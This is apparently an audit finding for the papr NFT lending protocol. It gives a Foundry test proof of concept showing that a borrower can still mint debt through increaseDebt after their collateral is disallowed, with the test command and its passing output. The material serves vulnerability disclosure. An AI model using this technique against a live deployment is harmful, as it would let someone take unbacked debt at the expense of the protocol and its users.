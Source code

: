 <https://github.com/with-backed/papr/blob/9528f2711ff0c1522076b9f93fba13f88d5bd5e6/test/paprController/IncreaseDebt.t.sol#L32>

```solidity
function testIncreaseDebt_POC() public {

	uint256 debt = 10 ether;
	// console.log(debt);

	vm.assume(debt < type(uint200).max);
	vm.assume(debt < type(uint256).max / controller.maxLTV() / 2);

	oraclePrice = debt * 2;
	oracleInfo = _getOracleInfoForCollateral(nft, underlying);


	vm.startPrank(borrower);
	nft.approve(address(controller), collateralId);
	IPaprController.Collateral[] memory c = new IPaprController.Collateral[](1);
	c[0] = collateral;

	controller.addCollateral(c);

	// disable the collateral but still able to mint debt
	IPaprController.CollateralAllowedConfig[] memory args = new IPaprController.CollateralAllowedConfig[](1);
	args[0] = IPaprController.CollateralAllowedConfig({
		collateral: address(collateral.addr),
		allowed: false
	});

	vm.stopPrank();

	vm.prank(controller.owner());
	controller.setAllowedCollateral(args);

	vm.startPrank(borrower);

	controller.increaseDebt(borrower, collateral.addr, debt, oracleInfo);
	assertEq(debtToken.balanceOf(borrower), debt);
	assertEq(debt, controller.vaultInfo(borrower, collateral.addr).debt);
}
```

We disable the collateral but still are able to mint debt by calling increaseDebt.

We run the test:

```solidity
forge test -vvv --match testIncreaseDebt_POC
```

The test passes, but the test should revert.

    Running 1 test for test/paprController/IncreaseDebt.t.sol:IncreaseDebtTest
    [PASS] testIncreaseDebt_POC() (gas: 239301)
    Test result: ok. 1 passed; 0 failed; finished in 237.42ms
